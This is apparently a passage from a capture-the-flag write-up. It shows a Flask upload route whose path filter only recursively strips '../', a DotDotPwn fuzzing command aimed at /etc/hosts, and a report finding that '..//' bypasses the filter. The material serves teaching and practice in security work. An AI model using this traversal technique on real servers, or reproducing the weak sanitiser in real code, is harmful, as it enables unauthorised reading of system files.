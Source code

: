 ```python
# views.py
@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

# utils.py
"""
Pass filename and return a secure version, which can then safely be stored on a regular file system.
"""
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")


"""
TODO: get unique filename
"""
def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension

"""
Recursively replace a pattern in a string
"""
def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

The `get_unique_upload_name` was never called. So the only protection was to recursively remove `../` from the path. I tried bypassing that protection, but I couldn't find anything that worked. I checked on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal) for more payload to try, but that failed also.

PayloadsAllTheThings was suggesting [DotDotPwn](https://github.com/wireghoul/dotdotpwn) to fuzz for directory traversal. I used it to read the hosts file on the server.

```bash
perl dotdotpwn.pl -m http-url -u http://target.htb/uploads/TRAVERSAL -x 80 -f /etc/hosts -k "localhost" -d 4 -t 200 -s
```

It found that I could use `..//` to read files on the server.

```
$ cat dotdotpwn/Reports/target.htb_05-30-2022_20-07.txt

[+] Date and Time: 05-30-2022 20:07:51

[========== TARGET INFORMATION ==========]
[+] Hostname: target.htb
[+] Protocol: http
[+] Port: 80
[+] Service detected:
Werkzeug/2.1.2 Python/3.10.3
[=========== TRAVERSAL ENGINE ===========]
[+] Traversal Engine DONE ! - Total traversal tests created: 3676

[+] Fuzz testing finished after 19.68 minutes (1181 seconds)
[+] Total Traversals found: 8
[+] Replacing "TRAVERSAL" with the traversals created and sending
```